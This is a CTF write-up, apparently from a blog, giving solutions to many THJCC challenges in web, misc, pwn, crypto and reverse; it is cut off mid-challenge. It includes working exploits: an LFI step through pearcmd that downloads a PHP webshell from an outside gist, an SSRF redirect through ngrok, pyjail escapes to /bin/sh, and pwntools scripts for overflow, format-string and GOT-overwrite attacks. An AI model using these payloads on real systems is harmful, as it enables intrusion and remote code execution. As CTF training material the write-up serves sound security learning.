

2nd again. god damnit. the Curse has unfortunately not been lifted

# WarmUp
## Welcome
> Start your CTF Challenge! **`THJCC{w3lc0m3_70_7hjcc}`**

self-explanatory

## beep boop beep boop
obligatory cipher spam chall\
binary -> b64 -> **`THJCC{n0rm4l_3nc0d1n6}`**

## Discord Challenge
hate ai injection challs and think they should never be in ctfs in the first place?\
fret not! someone already wrote a payload for u:


flag: **`THJCC{j01n_d15c0rd_53rv3r_f1r57}`**

# Web
## Headless
> I think *robots* are headless, but you are a real human, right?

obviously robots.txt
```
User-Agent: *
Disallow: /hum4n-0nLy
```
we'll be greeted with the source!
```py {hl_lines=[3]}
@app.route('/r0b07-0Nly-9e925dc2d11970c33393990e93664e9d')
def secret_flag():
    if len(request.headers) > 1:
        return "I'm sure robots are headless, but you are not a robot, right?"
    return FLAG
```
then solve with nc
```zsh
echo "GET /r0b07-0Nly-9e925dc2d11970c33393990e93664e9d HTTP/1.0\r\n" | nc chal.ctf.scint.org 10069
```
flag: **`THJCC{Rob0t_r=@lways_he@dl3ss...}`**

## Nothing here 👀
just ctrl+u and decode the flag in b64 -> **`THJCC{h4ve_f5n_1n_b4by_w3b_a5161cc22af2ab20}`**

## APPL3 STOR3🍎
simple observations:
- product viewing is controlled by ?id=85, which we can control the value
- items 85, 86, 88 are shown but not 87 (and also port is 8787 lmao)

going to ?id=87 we realize its the flag product! except it requires 9999999999 dollars\
intercepting the buy request, we can see that we sent 3 cookies:
```
id: "87"
Product_Prices: "9999999999"
user: "guest"
```
simply modify our product price cookie to be 0 and buy again\
flag: **`THJCC{Appl3_st0r3_M45t3r}`**

## Lime Ranger
lets go gambling!\
conveniently there's a view php source button
```php
if(isset($_GET["bonus_code"])){
    $code = $_GET["bonus_code"];
    $new_inv = @unserialize($code);
    if(is_array($new_inv)){
        foreach($new_inv as $key => $value){
            if(isset($_SESSION["inventory"][$key]) && is_numeric($value)){
                $_SESSION["inventory"][$key] += $value;
            }
        }
    }
}
```
we can see here that bonus_code doesnt do any check at all\
so we can just give ourselves whatever we want w/ a serialized array\
sending `a:2:{s:2:"UR";i:2763;s:3:"SSR";i:2763;}` and sellacc we get **`THJCC{lin3_r4nGeR_13_1ncreD!Ble_64m3?}`**

## proxy | under_development
fun threequel\
basically we have to fetch secret.flag.thjcc.tw (172.32.0.20) through a proxy

first off:
```js {hl_lines=[10,23,28]}
const express = require('express');
const http = require('http');
const https = require('https');
const path = require('path');
const urlModule = require('url');
const dns = require('dns');
const { http: followHttp, https: followHttps } = require('follow-redirects');
//...
function CheckSeheme(scheme) {
    return scheme.startsWith('http://') || scheme.startsWith('https://');
}

app.get('/fetch', (req, res) => {
    const scheme = req.query.scheme;
    const host = req.query.host;
    const path = req.query.path;
    if (!scheme || !host || !path) {
        return res.status(400).send('Missing parameters');
    }
    const client = scheme.startsWith('https') ? followHttps : followHttp;
    const fixedhost = 'extra-' + host + '.cggc.chummy.tw';

    if (CheckSeheme(scheme.toLocaleLowerCase().trim())) {
        return res.send('Development in progress! Service temporarily unavailable!');
    }

    const url = scheme + fixedhost + path;
    const parsedUrl = new urlModule.URL(url);
```
obviously putting everything in scheme is more convenient since we can just use `/?` and treat whatever after as a query\
but then theres CheckSeheme. we have to bypass that while making that a valid URL\
with trial and error we can know that both `http:/` and `http:` can circumvent that

next:
```js {hl_lines=[5,10]}
    dns.lookup(parsedUrl.hostname, { timeout: 3000 }, (err, address, family) => {
        if (err) {
            console.log('DNS lookup failed!');
        }
        if (address == '172.32.0.20') {
            return res.status(403).send('Sorry, I cannot access this host');
        }
    });

    if (parsedUrl.hostname.length < 13) {
        return res.status(403).send('My host definitely more than 13 characters, Evil url go away!');
    }

    client.get(url, (response) => {
        let data = '';

        response.on('data', (chunk) => {
            data += chunk;
        });

        response.on('end', () => {
            res.send(data);
        });
    }).on('error', (err) => {
        res.status(500).send(err);
    });
```
the dns lookup's blocking our target address!! but notice that the server uses `follow-redirects` module\
this implies we can send proxy to our server and **redirect them to target address**\
a 13 minimum length hostname check is in place, so i decided to use ngrok w/ [pyngrok](https://github.com/alexdlaird/pyngrok)

finally, secret.flag.thjcc.tw:
```js
app.get('/flag', (req, res) => {
    if (req.path === '/flag'){ // WTF?
        return res.send('I have said the service is temporarily unavailable now! (；′⌒`)');
    }

    if (req.hostname === 'secret.flag.thjcc.tw')
        return res.send(FLAG);
    else
        return res.send('Sorry, you are not allowed to access this page (；′⌒`)');
});

app.listen(80, 'secret.flag.thjcc.tw');
```
express's req.path treats `/flag` and `/flag/` as they are, but in the end they both go to the /flag route\
so just use `/flag/`

solve:
```py
from flask import Flask, redirect
from pyngrok import ngrok, conf
import threading
import time

app = Flask(__name__)

@app.route('/exploit')
def malicious_redirect():
    return redirect("http://secret.flag.thjcc.tw/flag/", code=302)

def run_flask():
    app.run(port=5000, host='0.0.0.0')

if __name__ == '__main__':
    conf.get_default().auth_token = "gullible"

    threading.Thread(taarget=run_flask, daemon=True).start()

    time.sleep(2)

    tunnel = ngrok.connect(5000, proto="http")
    public_url = tunnel.public_url

    print(f"\n[+] ngrok tunnel established at: {public_url}")

    while True:
        time.sleep(1)
```
then fetch
```
http://chal.ctf.scint.org:10068/fetch?scheme=https:/<idk-lmao>.ngrok-free.app/exploit?&host=:3&path=:3
```
then you win! **`THJCC{--->redirection--->evil-websites--->redirection--->bypass!--->flag!}`**

## i18n
```php {hl_lines=7}
<?php

if(!isset($_GET['lang'])){
    header('location: /?lang=zh_tw');
}else{
    $lang = $_GET['lang'];
    include "./lang/$lang.php";
}
?>
```
obviously file inclusion vuln\
considering null byte injection got fixed in php 5.3.2 and chall uses php 8.2, i thought i could only include .php\
ran locally and found `/usr/local/lib/php/pearcmd.php` which i can use to download [payload](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985)
```
http://localhost:1337/?lang=../../../../usr/local/lib/php/pearcmd&+install+-R+/tmp+https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/c871f130a12e97090a08d0ab855c1b7a93ef1150/easy-simple-php-webshell.php
```
then we get rce!
```
http://node2.dynchal.p23.tw:25850/?lang=../../../../tmp/tmp/pear/download/easy-simple-php-webshell&cmd=cat%20../../../flag
```
flag: **`THJCC{r3se4rch3r_is_mean_RE:SE4RCH}`**

# Misc
## network noise
open .pcapng in wireshark, search `frame matches "(?i)THJCC"`, lo and behold we got the flag in a http packet\
flag: **`THJCC{tH15_I5_JU57_TH3_B3G1Nn1Ng...}`**

## Seems like someone’s breaking down😂
> STOP ATTACK MeEeeEeEEeeE Hey you! come here! Help me to find out WHO break my door! app.log

if we scroll to the very bottom we'll see a suspicious b64 that decodes to `THJCC{fakeflag}`\
huh. search for the last occurence of `password=` we'll see a different b64 which is our flag. crazy\
flag: **`THJCC{L0g_F0r3N51C5_1s_E45Y}`**

## Setsuna Message
> Tonight, my good friend, Arisu Suzushima, brought me this note, saying it contains a message from her sister, Setsuna Sumeragi.
```
D'`A@^8!}}Y32DC/eR,>=/('9JIkFh~ffAAca=+u)\[qpun4lTpih.lNdihg`_%]E[Z_X|\>ZSwQVONr54PINGkEJCHG@d'&BA@?8\<|43Wx05.R,10/('Kl$)"!E%e{z@~}v<z\rqvutm3Tpihmf,dLhgf_%FE[`_X]Vz=YXQPta
```

yay!!! i love guessing!!!! wow!!!!!!\
mid-ctf hints were released:
> Having said that, his level of chaos is beyond imagination. Although it is not as exaggerated as the 18th level of hell, it can be regarded as the **8th level of hell**.

well now that's a no-brainer. its [malbolge](https://en.wikipedia.org/wiki/Malbolge)\
execute and decrypt b64 then you'll get **`THJCC{@r!su!1y}`**

## Hidden in Memory
> Find the computer name and submit with **THJCC{computername}**

idk wtf i was doing but this worked so lol
```zsh
❯ vol -f memdump.dmp hivelist
Volatility 3 Framework 2.11.0
Progress:  100.00               PDB scanning finished
Offset  FileFullPath    File output

0xd80b47676000          Disabled
# ...
0xd80b4b0b1000  \SystemRoot\System32\Config\BBI Disabled
0xd80b4b114000  \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT  Disabled
0xd80b4b6b8000  \??\C:\Users\WH3R3-Y0U-G3TM3\ntuser.dat Disabled
0xd80b4b706000  \??\C:\Users\WH3R3-Y0U-G3TM3\AppData\Local\Microsoft\Windows\UsrClass.dat       Disabled
```
flag: **`THJCC{WH3R3-Y0U-G3TM3}`**

## Pyjail01
```py
import unicodedata, string

_ = string.ascii_letters

while True:
    inpt = unicodedata.normalize("NFKC", input("> "))
    
    for i in inpt:
        if i in _:
            raise NameError("No ASCII letters!")
    
    exec(inpt)
```
important observations:
- we can access the _ variable (string.ascii_letters) in the exec
- both python's parser and this chall uses NFKC for normalizing, so it's super unlikely there's some discrepancy

the main breakthrough is noticing the filter doesn't use string.ascii_letters directly, and instead the _ variable\
since we can access _ we can just... overwrite it lmao
```zsh
> _=":3"
> __import__('os').system('/bin/sh')
ls
bin
boot
dev
etc
flag.txt
home
lib
# (...)
usr
var
cat flag.txt
THJCC{3asy_pYj41l_w1th_bl0ck3d_4sc11_a77fb11f}
```

## Pyjail02
```py
import unicodedata

inpt = unicodedata.normalize("NFKC", input("> "))
print(eval(inpt, {"__builtins__":{}}, {}))
```
typical pyjail with no builtins thats it
```py
().__class__.__base__.__subclasses__()[-4].__init__.__globals__['os'].popen('cat flag.txt').read()
```
flag: **`THJCC{pYj41l_w17h_r3m0v3d_bu1l71n5_5ebd37c1}`**

## There Is Nothing! 🏞️
image stega. into aperisolve it goes\
interestingly in the steghide field:
```
Corrupt JPEG data: 83558 extraneous bytes before marker 0xd9
steghide: could not extract any data with that passphrase!
```
huh. unshown data that got interpreted as "extra bytes" perhaps?\
borrowing this image from [here](https://cyberhacktics.com/hiding-information-by-changing-an-images-height/):

here we have `ff c0 00 11 08 01 5e 03 20`, which we edit height to `11 5e`

flag: **`THJCC{1_d1dn7_h1d3_4ny7h1n6}`**

# Pwn
## Flag Shopping
source:
```c {hl_lines=8}
printf("How many do you need?\n> ");
scanf("%lld", &num);
if (num < 1){
    printf("invalid number\n");
    continue;
}

if (money < price[option]*(int)num){
    printf("You only have %d, ", money);
    printf("But it cost %d * %d = %d\n", price[option], (int)num, price[option]*(int)num);
    continue;
}

money -= price[option]*(int)num;
own[option] += num;
```
even though we cant input a negative number, we can still overflow `price[option]*(int)num` to make it go negative
```text
            Welcome to the FLAG SHOP!!!
===================================================

Which one would you like? (enter the serial number)
1. Coffee
2. Tea
3. Flag
> 3
How many do you need?
> 18
THJCC{W0w_U_R_G0oD_at_SHoPplng}
```

## Money Overflow
```c {hl_lines=16}
struct
{
    int id;
    char name[20];
    unsigned short money;
} customer;
//...
        case 5:
            if (customer.money >= 65535)
            {
                system("/bin/sh");
                exit(0);
            }
//...
    printf("Enter your name: ");
    gets(customer.name);
```
`gets` doesnt check for input length, so we can buffer overflow into money
a short has 2 bytes, so we'll overwrite money w/ `0xFFFF`
```py
from pwn import *

r = remote('chal.ctf.scint.org', 10001)
r.sendlineafter(b':', b'A' * 20 + b'\xFF\xFF')
r.sendlineafter(b'> ', b'5')
r.interactive()
```
```zsh
[+] Opening connection to chal.ctf.scint.org on port 10001: Done
[*] Switching to interactive mode
$ ls
bin
boot
dev
etc
flag.txt
home
lib
# ...
var
$ cat flag.txt
THJCC{Y0uR_n@mE_I$_ToO_LoO0OOO00oO0000o0O00OoNG}
```

## Insecure Shell
throwing in ida:
```c
	read(fd, buf, 0xFuLL);
    printf("Enter the password >");
    __isoc99_scanf("%15s", s);
    v4 = strlen(s);
    if ( (unsigned int)check_password(buf, s, v4) )
      puts("Wrong password!");
    else
      system("/bin/sh");
    return 0;
```
check_password function:
```c {hl_lines=5}
__int64 __fastcall check_password(__int64 a1, __int64 a2, int a3)
{
  int i; // [rsp+20h] [rbp-4h]

  for ( i = 0; i < a3; ++i )
  {
    if ( *(_BYTE *)(i + a1) != *(_BYTE *)(i + a2) )
      return 1LL;
  }
  return 0LL;
}
```
notice that we control the count of comparisons with our input length\
we can just brute w/ 1 char and hope we get the 1 in 256!
```py
from pwn import *
import sys, time

while True:
    p = remote('chal.ctf.scint.org', 10004)
    p.sendlineafter(b'>', b'!')

    l = p.recv(1, timeout=1)
    if l and b'Wrong' in l:
        log.failure(l)
    else:
        p.interactive()

    p.close()
    time.sleep(1)
```
```zsh
Opening connection to chal.ctf.scint.org on port 10004: Done
[+] 
[+] stopped it worked i think
[*] Switching to interactive mode
$  =l ls ls
bin
boot
dev
etc
flag.txt
home
lib
# ...
usr
var
$  c ca cat cat  cat f cat fl cat fla cat flag cat flag. cat flag.t cat flag.tx cat flag.txt cat flag.txt
THJCC{H0w_did_you_tyPE_\x00?}$  [*] Got EOF while reading in interactive
```

## Once
```c {hl_lines=10}
char charset[] = "!\"#$%&\'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~";

void main()
{
    char secret[0x10];
    char buf[0x10];
    char is_sure = 'y';

    init();
    srand(time(NULL));

    for (int i = 0; i < 15; i++)
    {
        secret[i] = charset[rand() % strlen(charset)];
    }
    secret[15] = 0;

    printf("Guess the secret, you only have one chance\n");
    while (1)
    {
        printf("guess >");
        scanf("%15s", buf);
        getchar();
        // ...
            if (!strcmp(buf, secret))
            {
                printf("Correct answer!\n");
                system("/bin/sh");
            }
            else
            {
                printf("Incorrect answer\n");
                printf("Correct answer is %s\n", secret);
                break;
            }
    }
}
```
the code seeds with epoch, which we can trivially obtain on the moment we connect to server\
so we can reconstruct the secret
```py
from pwn import *
from ctypes import CDLL
import time

libc = CDLL('./libc.so.6')

r = remote('chal.ctf.scint.org', 10002)
alph = "!\"#$%&\'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~"

secret = ''
libc.srand(int(time.time()) + 2)
for _ in range(15):
    secret += alph[libc.rand() % len(alph)]

r.sendline(secret.encode())
r.sendline(b'y')
r.interactive()
```
u need to gamble like 5 times because of internet
```text
[*] Switching to interactive mode
Guess the secret, you only have one chance
guess >Your guess: N+m>`<<2bD^<R_j
Are you sure? [y/n] >Correct answer!
$ ls
bin
boot
dev
etc
flag.txt
home
# ...
var
$ cat flag.txt
THJCC{d1dN'T_!_5@y_yoU_ON1Y_h4V3_oN3_cH@Nc3?}$
```

## Little Parrot
me, a pwn noob: "wow this looks so similar to that one chal" (ofc idiot its simple asf thats why u saw a similar one before)

chal:
```c {hl_lines=[19,32]}
void win(){
	printf("\nYou win!\n");
	printf("Here is your flag: flag{fake_flag}");
	fflush(stdout);
}

int parrot(){
	char buf[0x100];
	printf("I'm a little parrot, and I'll repeat whatever you said!(or exit)\n> ");
	while(1){
		fflush(stdout);
		fgets(buf, sizeof(buf), stdin);

		if (!strcmp(buf, "exit\n")){
			break;
		}

		printf("You said > ");
		printf(buf);
		printf("> ");
		fflush(stdout);
	}
}

int main(){
	parrot();

	char buf[0x30];
	printf("anything left to say?\n> ");
	fflush(stdout);
	getchar();
	gets(buf);
	printf("You said > %s", buf);
	fflush(stdout);
	return 0;
}
```
clearly theres a format string vuln in parrot, and a buffer overflow in main\
but uhh i kinda forgot the latter existed so lmfao

we can leak stack addr, pie with `%40$p`, `%41$p`\
breakpoint right before parrot returns:
```zsh {hl_lines=2}
 RBP  0x7fffffffc640 —▸ 0x7fffffffc6e0 —▸ 0x7fffffffc740 ◂— 0
 RSP  0x7fffffffc5f8 —▸ 0x55555555536c (main+37) ◂— lea rax, [rip + 0xd26]
 RIP  0x555555555346 (parrot+224) ◂— ret
```
rsp stores our return address, so we wanna overwrite `0x7fffffffc5f8` with our win addr
```py
from pwn import *
context.binary = elf = ELF('./chal')

r = remote('chal.ctf.scint.org', 10103)

r.sendlineafter(b'> ', b'%40$p.%41$p')
r.recvuntil(b'> ')
leaks = r.recvuntil(b'> ').split()[0].strip().split(b'.')
stack_leak = int(leaks[0], 16)
pie_leak = int(leaks[1], 16)

pie_base = pie_leak - 0x136c
win_addr = pie_base + 0x1229
target_ret_addr = stack_leak - 0x48

log.info(f'pie leak: {hex(pie_leak)}')
log.info(f'stack leak: {hex(stack_leak)}')
log.info(f'pie base: {hex(pie_base)}')
log.info(f'win() addr: {hex(win_addr)}')
log.info(f'target ret addr: {hex(target_ret_addr)}')

payload = fmtstr_payload(6, { # our input starts showing up at offset 6
    target_ret_addr: win_addr
}, write_size='short') #yeah

r.sendline(payload)
r.recvuntil(b'> ')
r.sendline(b'exit')

r.interactive()
```
```zsh
You win!
Here is your flag: THJCC{P3w-pew_im_4_LiTTI3_parr0t}
```

## Bank Clerk
```c
void backdoor()
{
    system("/bin/sh");
}

int accounts[100];

void deposit(int id)
{
    unsigned int amount;
    printf("Enter the amount to deposit> ");
    scanf("%u", &amount);
    accounts[id] += amount;
    printf("Deposited %u$ to account %d\n", amount, id);
}

void withdraw(int id)
{
    unsigned int amount;
    printf("Enter the amount to withdraw> ");
    scanf("%u", &amount);
    if (amount > accounts[id])
    {
        printf("ERROR! Current balance: %u\n", accounts[id]);
        sleep(1);
    }
    else
    {
        accounts[id] -= amount;
        printf("Withdrew %u$ from account %d\n", amount, id);
    }
}
```
since theres no check on indices, we have **OOB write in deposit and OOB read in withdraw**\
lets assume account array is at `0x555555558080`, backdoor addr offset would be `-0x2e30`\
behind account array lies GOT:
```zsh {hl_lines=12}
pwndbg> tele 0x555555558080-0x100 0x120
# ...
10:0080│  0x555555558000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x3df8
11:0088│  0x555555558008 (_GLOBAL_OFFSET_TABLE_+8) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
12:0090│  0x555555558010 (_GLOBAL_OFFSET_TABLE_+16) —▸ 0x7ffff7fda2f0 (_dl_runtime_resolve_xsavec) ◂— endbr64
13:0098│  0x555555558018 (puts@got[plt]) —▸ 0x555555555030 ◂— endbr64
14:00a0│  0x555555558020 (__stack_chk_fail@got.plt) —▸ 0x555555555040 ◂— endbr64
15:00a8│  0x555555558028 (system@got[plt]) —▸ 0x555555555050 ◂— endbr64
16:00b0│  0x555555558030 (printf@got[plt]) —▸ 0x555555555060 ◂— endbr64
17:00b8│  0x555555558038 (setvbuf@got[plt]) —▸ 0x555555555070 ◂— endbr64
18:00c0│  0x555555558040 (__isoc99_scanf@got.plt) —▸ 0x555555555080 ◂— endbr64
19:00c8│  0x555555558048 (sleep@got[plt]) —▸ 0x555555555090 ◂— endbr64
1a:00d0│  0x555555558050 (data_start) ◂— 0
```
since sleep is easily accessible in withdraw, lets overwrite that one!\
its index would be `(0x555555558048 - 0x555555558080) // 4 = -14`\
sleep's offset is `-0x2ff0`, so we'll need to add 448 to jump to backdoor
```zsh
Welcome to the bank!
1) deposit
2) withdraw
Your choice> 1
id> -14
Enter the amount to deposit> 448
Deposited 448$ to account -14
1) deposit
2) withdraw
Your choice> 2
id> 0
Enter the amount to withdraw> 851925219581295812958219852763
ERROR! Current balance: 0
ls
bin
boot
dev
etc
flag.txt
home
# ...
var
cat flag.txt
THJCC{p@R7!AL_R3lR0_witH_p!3??}
```

# Crypto
## Twins
```py {hl_lines=7}
from Crypto.Util.number import *
from secret import FLAG

def generate_twin_prime(N:int):
    while True:
        p = getPrime(N)
        if isPrime(p + 2): return p, p + 2

p, q = generate_twin_prime(1024)
N = p * q
e = 0x10001
m = bytes_to_long(FLAG)
C = pow(m, e, N)

print(f"{N = }")
print(f"{e = }")
print(f"{C = }")
```
isqrt of p*(p+2) is p (\(p < \sqrt{N} < p+1\) from quadratic formula)\
so getting p is trivial
```PY
from Crypto.Util.number import *

n=282655127851...
e=65537
c=123449764712...

p=n.isqrt()
q=n//p
d=inverse(e, (p-1)*(q-1))
print(long_to_bytes(pow(c, d, n)))
```
flag: **`THJCC{7wIn_pR!me$_4RE_Too_L0VE1Y}`**

## DAES
```py
target = os.urandom(16)
keys = [b'whalekey:' + str(random.randrange(1000000, 1999999)).encode() for _ in range(2)]

def enc(key, msg):
    ecb = AES.new(key, AES.MODE_ECB)
    return ecb.encrypt(msg)

def daes(msg):
    tmp = enc(keys[0], msg)
    return enc(keys[1], tmp)

test = b'you are my fire~'
print(daes(test).hex())
print(daes(target).hex())

ans = input("Ans:")
if ans == target.hex():
    print(FLAG)
else:
    print("Nah, no flag for u...")
```
the small range of randrange is basically asking you to brute\
if we brute for both keys simultaneously and compare the results it'll take 1e12 operations. very not ideal\
so lets meet in the middle!
```py
from Crypto.Cipher import AES
from tqdm import tqdm
from pwn import *

def enc(key, msg):
    ecb = AES.new(key, AES.MODE_ECB)
    return ecb.encrypt(msg)

def dec(key, msg):
    ecb = AES.new(key, AES.MODE_ECB)
    return ecb.decrypt(msg)

r = remote('chal.ctf.scint.org', 12003)

test_plain = b'you are my fire~'
test_ct = bytes.fromhex(r.recvline().strip().decode())
target_ct = bytes.fromhex(r.recvline().strip().decode())

ct_dict = {}
log.info("precompute k1 ciphertexts")
for num in tqdm(range(1000000, 2000000)):
    k1 = b'whalekey:' + str(num).encode()
    ct = enc(k1, test_plain)
    ct_dict[ct] = k1

found_k1, found_k2 = None, None
log.info("search k2")
for num in tqdm(range(1000000, 1999999+1)):
    k2 = b'whalekey:' + str(num).encode()
    pt = dec(k2, test_ct)
    if pt in ct_dict:
        found_k1 = ct_dict[pt]
        found_k2 = k2
        log.success(f'k1, k2 = {found_k1}, {found_k2}')
        break

if found_k1 is None:
    log.info("keep gambling")
    exit()

target = dec(found_k1, dec(found_k2, target_ct))

r.sendline(target.hex().encode())
r.interactive()
```
```zsh
[*] precompute k1 ciphertexts
100%|██████████████████████████████████████████████████████████████████████| 1000000/1000000 [00:18<00:00, 52776.97it/s]
[*] search k2
 74%|████████████████████████████████████████████████████▉                  | 744761/1000000 [00:12<00:04, 61078.08it/s]
[+] k1, k2 = b'whalekey:1544672', b'whalekey:1745391'
[*] Switching to interactive mode
Ans:THJCC{see_u_again_in_the_middle}
```

## Frequency Freakout
i see substitution i quipqiup
>  IF YOU'RE UP FOR A PUZZLE, HERE'S A CHALLENGE: **`THJCC{SUBST1T1ON_CIPH3R_1S_COO1}`** -J

## SNAKE
```py
SSSSS = input()
print("".join(["!@#$%^&*(){}[]:;"[int(x, 2)] for x in [''.join(f"{ord(c):08b}" for c in SSSSS)[i:i+4] for i in range(0, len(SSSSS) * 8, 4)]]))
```
basically encode input in binary, convert every group of 4 into decimal, then index into the charset\
```py
from Crypto.Util.number import *
s='^$&:&@&}&^*$#!&@*#&^#!&^&[&;&...' #insert rest of ciphertext
print(long_to_bytes(int(''.join(bin('!@#$%^&*(){}[]:;'.find(x))[2:].zfill(4) for x in s), 2)))
```
> ...and Pygopodidae). blablabla Here is your flag: **`THJCC{SNAK3333333333333333}`**

## Yoshino's Secret
```py
#!/usr/bin/python3
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
from secret import FLAG
import json
import os

KEY = os.urandom(16)

def encrypt(plaintext: bytes) -> bytes:
    iv = plaintext[:16]
    cipher = AES.new(KEY, AES.MODE_CBC, iv)
    return iv + cipher.encrypt(pad(plaintext[16:], AES.block_size))

def decrypt(ciphertext: bytes) -> str:
    iv = ciphertext[:16]
    cipher = AES.new(KEY, AES.MODE_CBC, iv)
    plaintext = unpad(cipher.decrypt(ciphertext[16:]), AES.block_size)
    return plaintext

def check(token):
    try:
        token = bytes.fromhex(token)
        passkey = decrypt(token)
        data = json.loads(passkey)
        if data["admin"]:
            print(f"Here is your flag: {FLAG}")
            exit()
        else:
            print("Access Denied")
    except:
        print("Hacker detected, emergency shutdown of the system")
        exit()

def main():
    passkey = b'{"admin":false,"id":"TomotakeYoshino"}'
    token = encrypt(os.urandom(16) + passkey)
    print(f"token: {token.hex()}")
    while True:
        token = input("token > ")
        check(token)
    
if __name__ == '__main__':
    main()
```
since we're given IV, we can do cbc bit flipping attack
recall CBC's decryption process:

since \( plain_1 = decrypted_1 \oplus IV \), we can overwrite the 1st block with whatever we want!\
xoring itself cancels out to 0, so we can xor the char with itself and our target char
```py
from pwn import *

def bit_flip_attack(original_token_hex):
    token = bytes.fromhex(original_token_hex)
    modified_token = bytearray(token)

    modified_token[9] ^= ord('f') ^ ord('\'')
    modified_token[13] ^= ord('e') ^ ord('\'')

    return modified_token.hex().encode()

r = remote('chal.ctf.scint.org', 12002)
token = r.recvline().split()[-1].decode()
log.info(f'token: {token}')

payload = bit_flip_attack(token)
r.sendline(payload)
r.interactive()
```
```zsh
[+] Opening connection to chal.ctf.scint.org on port 12002: Done
[*] Switching to interactive mode
token > Here is your flag: b"THJCC{F1iP_Ou7_y0$Hino's_53Cr3t}"
Hacker detected, emergency shutdown of the system
```

## Speeded Block Cipher
modified AES except the add function literally leaks the key
```py
def expand_key(K, PS):
    for i in range(PS - 1):
        NK = [(~(x + y)) & 0xFF for x, y in zip(K[i], K[i + 1])]
        NK = [(x >> 4) | (x << 4) & 0xFF for x in NK]
        NK = shift_rows(NK)
        K.append(NK)
    return K[1:]

def add(a: bytes, b: bytes) -> bytes:
    return bytes([((x + 1) ^ y) & 0xff for x, y in zip(a, b)])

def encrypt(plaintext: bytes) -> bytes:
    PS = len(plaintext) // 16
    P = [plaintext[i: i + 16] for i in range(0, PS * 16, 16)]
    K = expand_key([IV, KEY], PS)
    C = []
    for i, B in enumerate(P):
        C.append(add(B, K[i]))
    return b"".join(C)
```
since we can control P (plaintext blocks), we can just send \x00 bytes and recover by xoring 1\
we can get \(K[0]\) (key) and \(K[1]\) (first encrypted block) from this\
then we can derive subsequent key blocks using expand_key
```py
from pwn import *

def unpad(text: bytes) -> bytes:
    padding = text[-1]
    return text[:-padding]

def shift_rows(B: list):
    M = [B[i:i+4] for i in range(0, 16, 4)]
    M[0][1], M[1][1], M[2][1], M[3][1] = M[1][1], M[2][1], M[3][1], M[0][1]
    M[0][2], M[1][2], M[2][2], M[3][2] = M[2][2], M[3][2], M[0][2], M[1][2]
    M[0][3], M[1][3], M[2][3], M[3][3] = M[3][3], M[0][3], M[1][3], M[2][3]
    return bytes(M[0] + M[1] + M[2] + M[3])

def recover_initial_blocks(conn):
    conn.sendlineafter(b"encrypt(hex) > ", b'00'*16)
    ct = bytes.fromhex(conn.recvline().decode().split(": ")[1])
    K0 = bytes([(c ^ 1) & 0xff for c in ct[:16]])
    
    conn.sendlineafter(b"encrypt(hex) > ", b'00'*32)
    ct = bytes.fromhex(conn.recvline().decode().split(": ")[1])
    K1 = bytes([(c ^ 1) & 0xff for c in ct[16:32]])
    
    return K0, K1

def dec(conn, ct):
    K0, K1 = recover_initial_blocks(conn)
    K = [K0, K1]
    PS = len(ct) // 16
    
    for i in range(2, PS):
        NK = [(~(x + y)) & 0xFF for x, y in zip(K[i-2], K[i-1])]
        NK = [(x >> 4) | (x << 4) & 0xFF for x in NK]
        NK = shift_rows(NK)
        K.append(bytes(NK))
    
    flag = b''
    for i in range(PS):
        block = ct[i*16:(i+1)*16]
        decrypted = bytes([((c ^ k) - 1) & 0xff for c, k in zip(block, K[i])])
        flag += decrypted
    
    return unpad(flag)

r = remote('chal.ctf.scint.org', 12001)

r.recvuntil(b": ")
ct = bytes.fromhex(r.recvline().decode().strip())

flag = dec(r, ct)
log.success(flag)
```
flag: **`THJCC{jU$T_4_$1Mple_xor_ENCryP7!oN_iSN't_it?}`**

# Reverse
## 西
basically just keywords remapped to chinese. banger\
find and replace is annoying, but we can just xor ciphertext with 0xF5 after noticing these:
```c
#define 欸殼斯偶爾等於 ^=
#define 欸服費 0xF5
// ...

掐 伊恩窺皮特_弗雷格[] 等於 "\xa1\xbd\xbf\xb6\xb6\x8e\xa1\x9d\xc4\x86\xaa\xc4\xa6\xaa\x9b\xc5\xa1\xaa\x9a\x97\x93\xa0\xd1\x96\xb5\xa1\xc4\xba\x9b\x88";
```
flag: **`THJCC{Th1s_1S_n0T_obfU$c@T1On}`**

## time_GEM
using IDA we can find the encryption function:
```c
unsigned __int64 power()
{
  void *v0; // rsp
  __int64 v2; // [rsp+8h] [rbp-160h] BYREF
  int i; // [rsp+10h] [rbp-158h]
  int v4; // [rsp+14h] [rbp-154h]
  int v5; // [rsp+18h] [rbp-150h]
  int v6; // [rsp+1Ch] [rbp-14Ch]
  char *s; // [rsp+20h] [rbp-148h]
  __int64 v8; // [rsp+28h] [rbp-140h]
  __int64 *v9; // [rsp+30h] [rbp-138h]
  _BYTE v10[280]; // [rsp+38h] [rbp-130h] BYREF
  unsigned __int64 v11; // [rsp+150h] [rbp-18h]

  v11 = __readfsqword(0x28u);
  qmemcpy(v10, &unk_2060, 0x10CuLL);
  v4 = 67;
  s = "THJCCISSOGOODIMNOTTHEFLAG!!!";
  v8 = 67LL;
  v0 = alloca(80LL);
  v9 = &v2;
  v5 = strlen("THJCCISSOGOODIMNOTTHEFLAG!!!");
  for ( i = 0; i < v4; ++i )
  {
    v6 = s[i % v5] ^ (i % 256);
    *((_BYTE *)v9 + i) = v6 ^ v10[4 * i];
    printf("%c\n", (unsigned int)*((char *)v9 + i));
    sleep(0x1337u);
  }
